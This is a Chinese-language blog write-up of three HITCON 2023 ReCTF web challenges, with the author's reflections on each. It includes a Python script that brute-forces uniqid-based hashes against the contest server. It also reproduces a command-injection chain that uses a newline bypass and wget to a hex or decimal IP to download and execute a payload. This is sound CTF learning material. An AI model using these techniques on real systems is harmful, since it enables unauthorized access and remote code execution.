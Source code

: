 ```yaml
---
title: HITCON-2023-ReCTF
date: 2023-08-27 20:50:27
tags:
categories:
- [CTF]
cover:
- cover.jpg
---
```

## 緣起

上周被公司派去參加了 hitcon 2023，看到各路大神、後起之秀的超高水準研究以及那充滿夢想(?)的眼神，
想起自己小時候其中一個夢想就是挖洞拿獎金達到財富自由，工作後慢慢忘記的 hacker 熱情又被點燃了。
由於在台上的講者們都曾是 ctf 王，打 ctf 似乎是一個很好的鍛鍊方式，於是我打算如法炮製，試著打打看，看一年後我會不會搖身一變成挖洞高手，實現夢想👍👍。

在這次 hitcon 2023 我玩了 devcore wargame 和 rectf，{% post_link DEVCORE-Wargame-2023 %} 的部分只解了一題水題...(儘管我仍然花了 5 個小時)，rectf 因為開放時間比較久，費盡洪荒之力總算是解了兩題。在這邊放上 write up 和簡單的心路歷程，記錄一下。

## ReCTF
顧名思義，這個活動是將從前 hitcon ctf 出過的題目進行復刻。

### papapa
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-1.png 450 挖勒 %}
一進來頁面就長這樣，啥 input 都沒有，看了 cookie 感覺也沒能控制的點，我無言了...。
通靈了一下子，決定爬文搜 papapa ctf，發現是 hitcon 2016 時 orange 出的題目([連結](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/))，並翻了 orange github 的出題 src，原來解題的關鍵在憑證...。
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-2.png 450 %}

直接 burpsuite 改 host，拿到 flag `FLAG{Nw_u_F0un6_myh05t}`
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-3.png 450 %}

但其實這 flag 傳上去是錯的，窩操，傻住了一下，搞不好是藏在其他頁，重新走整個流程再試一次。
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-4.png 450 %}
這次真的拿到了 `hitcon{n0w_4y_h4v3_th3_f14g}`，原來 flag 不是在 `/index.html` 是在 `/`，還好不是藏很深(呼氣)。

### yeeclass
{% img https://files.sakana.tw/HITCON-2023-ReCTF/yeeclass-1.png 450 %}
這個題目很佛心的給了你整個 source 包括 docker compose，所以只要 trace code 就好，
我原本是這樣想的...，但我前一小時真的看不出洞。
本以為是打 sql injection，但整份 code 都使用 POD execute，應該不是這問題。
後來才發現，submission.php 中有一個判斷失誤，`PERM_TA` 為 1，`_SESSION`不存在時，其在 boolean 的判斷會當成 0 的樣子，可以繞過拿到 FLAG 的清單 (`homework=1`)
{% img https://files.sakana.tw/HITCON-2023-ReCTF/yeeclass-2.png 450 %}

於是我把 cookie 清掉再讀一次網頁，繞過了，可惜這邊還是看不到 flag 內容
{% img https://files.sakana.tw/HITCON-2023-ReCTF/yeeclass-3.png 450 %}

同時 submission.php 中看到了這一段，我突發奇想: "是不是有辦法 userclass 沒設定但 userid 設定成 `flagholder`"，這樣我就有拿的到 hash 去存取 flag 頁面了？！
``` php
<?php foreach ($result as $row) { ?>
<tr>
    <?php if ((isset($_SESSION["userid"]) && $_SESSION["userclass"] >= PERM_TA) || $row["userid"] == $_SESSION["userid"]) { ?>
    <td><a href="submission.php?hash=<?= $row['hash'] ?>"><?= $row["name"] ?></a></td>
```
於是我轉向 `index.php`，查了一堆資料想了各種可能 (e.g. HPP、race condition)，想破頭了覺得沒辦法做到。
``` php
// 邏輯大概是這樣，一氣呵成，看不出破綻
    $login_query = $pdo->prepare("SELECT * FROM user WHERE username=?");
    $result = $login_query->fetch(PDO::FETCH_ASSOC);
    $_SESSION["userid"] = $result["id"];
    $_SESSION["username"] = $result["username"];
    $_SESSION["userclass"] = $result["class"];
```
最後我破防了，去看出題者的說明，發現要利用 uniuid 直接拿時間戳產生的特性，推出當初用來算 hash 的 uid，學到了...，因為從上一步的繞過，我得到了 flag 的提交時間，可以寫 exploit 了。
exploit 基本上就是參考 php source uniuid 的寫法，其他比較花時間的部分，大概就是想辦法把日期時間轉換成 unixtimestamp 並且 parse 成對應格式，以及一些 POC 的基本驗證了 (我一開始還 parse 錯)
``` python
import http.client
import hashlib
# target url
url = 'rectf.hitcon2023.online'
# The flag submission time
sec = 1692158975
usec = 584096

for  i in range(300,1,-1):
    flag_submit_id = f"flagholder_{sec:x}{usec-i:x}"

    hash = hashlib.sha1(flag_submit_id.encode()).hexdigest()
    print(f"Testing {flag_submit_id}")

    conn = http.client.HTTPConnection(url, 30203)
    # conn = http.client.HTTPConnection(url, 8210)
    conn.request('GET',f'/submission.php?hash={hash}')
    r2 = conn.getresponse()
    data2 = r2.read()
    if(data2 != b'Submission not found.'):
        print(f'Successfully get flag with {hash}')
        print()
        print(data2)
        break
    conn.close()
```
Reference:
- https://stoneapp.tech/cavern/post.php?pid=948

### babyfirst
<script src="https://gist.github.com/orangetw/cb3487e47d7aaaea4692.js"></script>
(應該沒人認真看這篇，我偷偷 host orange 的 gist 應該不會有人發現吧？)

找資料發現 `preg_match` 有個 `\n` 的 mismatch 洞之後，測了一兩個小時，
確定只能這樣串 `$args = ['AAA\n','mycmd','my parameter\n','mycmd']`，沒其他特殊字元可以繞過了。

串指令的路線
1. 寫入 base64 檔案 + decode base64 檔案 + 執行檔案
   - 如何寫入？狗到的方式都是 `echo xxx > file`，有 `>`
   - `base64 -decode` 有 `-`
2. 下載檔案 + 執行檔案
   - 如何下載？首先 ip `xxx.xxx.xxx.xxx` 就有 `.`

感覺都不行，我低下的想像力不知道怎麼辦了。偷偷看了一下 orange 的 writeup，確定 wget 可以。於是我又想了一個小時，靈機一動 ip 有 decimal 形式，`wget 2130706433(127.0.0.1)`成功下載檔案。
但 `wget` 抓下來的檔名是 `index.html`，就算 302 轉向到別的網頁一樣，又再卡住一次。
爬文幾乎每篇講 linux 下載檔案的，都是用 curl、wget。而 curl 也是會用到特殊符號。mv 也要輸入檔案名 `index.html`

在爬了一個多小時的文之後，果斷去看 writeup🥹。
```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```
看了我還是不懂，php 怎麼可能執行 tar 後的檔案，實際試了一次後，還真的可以直接執行😱，為什麼會有這種 feature？！

除此之外還有
- wget 302 重導向到 ftp，可以解決 index.html 預設檔名的問題。
- busybox ftpget
- twistd telnet

這些解法確實是超出我的理解範圍了。

Reference:
- https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97

### 其他題
其他題我還沒打，網站就關了，88。

### 心得

#### papapa
資訊收集的部分要再細心一點，都用 nmap 去掃這網站的 ip 了，卻沒注意到憑證這個部分。
另外意外的收穫就是從 orange 架這題目的 src，學到了 apache 的 virtual host 這個 feature，
原來有這種酷東西，感覺架網站時很有用，並且底層是檢查 http header 中的 `host:` 進行轉送的。
Reference:
- https://github.com/orangetw/My-CTF-Web-Challenges#papapa
- https://blog.51cto.com/milenovo/1698875
- https://httpd.apache.org/docs/2.4/vhosts/name-based.html

#### yeeclass
這一個我感覺就差一點，我因為原本的想法失敗就放棄了，但我認為我是有能力觀察到 uniuid 那邊的貓膩的，
這邊沒有堅持住，搥牆，要改進才行。
在說做不到之前，必須好好確認是不是還有其他可以利用的線索還沒觀察到的。

#### babyfirst
看完 writeup 後，我難得慶幸還好我有看，因為我真的想不出來這幾招...學到了。
還有一個原因可能是我對 linux 的 core util 太不熟了，希望未來會慢慢改善。


